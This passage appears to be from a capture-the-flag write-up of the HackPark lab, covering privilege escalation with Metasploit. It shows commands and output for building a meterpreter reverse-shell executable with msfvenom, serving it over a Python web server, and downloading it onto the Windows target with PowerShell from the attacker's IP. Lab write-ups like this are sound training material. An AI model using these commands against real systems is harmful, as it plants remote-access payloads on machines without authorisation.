 ## Privilege escalation

### Summary

- [With Metasploit](#with-metasploit)
- [Without Metasploit](#without-metasploit)

### With metasploit

First, let's generate a meterpreter reverse shell using [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) :  
```
attacker@AttackBox:~/Documents/THM/CTF/HackPark$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4243 -f exe -o meterpreter.exe
[?] Would you like to init the webservice? (Not Required) [no]: 
[?] Would you like to delete your existing data and configurations? []: no
Clearing http web data service credentials in msfconsole
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/attacker/.msf4/db...success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: meterpreter.exe
```

Now, we can start a webserver using python and then download the malicious .exe file on the target. First, let's setup a temporary web server with `python3 -m http.server 80` :  
```
attacker@AttackBox:~/Documents/THM/CTF/HackPark$ sudo python3 -m http.server 80
[sudo] Mot de passe de attacker : 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, let's download the payload to the target machine with powershell :  
```
powershell -c "wget 10.14.31.20/meterpreter.exe -outfile C:\inetpub\wwwroot\App_Data\files\meterpreter.exe"
c:\inetpub\wwwroot\App_Data\files>powershell -c "wget 10.14.31.20/meterpreter.exe -outfile C:\inetpub\wwwroot\App_Data\files\meterpreter.exe"
dir
c:\inetpub\wwwroot\App_Data\files>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\inetpub\wwwroot\App_Data\files
10/15/2022  10:53 AM    <DIR>          .
10/15/2022  10:53 AM    <DIR>          ..
08/04/2019  03:11 PM           103,419 26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg
10/15/2022  10:53 AM            73,802 meterpreter.exe
10/15/2022  10:53 AM    <DIR>          Microsoft
10/15/2022  10:45 AM             3,504 PostView.ascx
               3 File(s)        180,725 bytes
               3 Dir(s)  39,124,463,616 bytes free
```
